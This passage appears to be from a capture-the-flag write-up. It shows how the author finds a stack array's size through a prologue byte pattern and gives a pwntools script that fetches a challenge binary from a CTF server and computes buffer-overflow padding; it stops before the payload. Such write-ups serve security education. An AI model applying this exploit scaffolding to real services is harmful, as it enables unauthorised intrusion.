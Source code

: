 In pattern I decided to use 

```x86asm
push   rbp
mov    rbp, rsp
sub    rsp, [ARRAY SIZE]
```
next three bytes after this instructions are in which determine array size
this operation in hex are:
```
48 89 E5 48 81 EC [? ? ?]
```
where array size are three question marks


Code which scan array in file via prepared pattern 
```py
from pwn import *
import base64
import struct
import os

server = remote("chal.imaginaryctf.org", 42020)



# get software dump
server.recvuntil("---------------------------BEGIN  DATA---------------------------")
server.recvline()
binary_base64 = server.recvline()
binary_hex = base64.b64decode(binary_base64).hex().upper()


# save data to file
exploit_binary = open('2hack', 'wb')
bytes_object = bytes.fromhex(binary_hex)
exploit_binary.write(bytes(bytes_object))
exploit_binary.close()
binary = ELF('./2hack')
context.binary = binary
os.chmod("./2hack", 0o777)


pattern_prefix = "4889E54881EC"
index = binary_hex.index(pattern_prefix) + 12
array_size = int(str(binary_hex[index + 4] + binary_hex[index + 5] + binary_hex[index + 2] + binary_hex[index + 3] + binary_hex[index] + binary_hex[index + 1]), base=16)
print("Array size: ", array_size)
padding = array_size + 8
```

## First payload
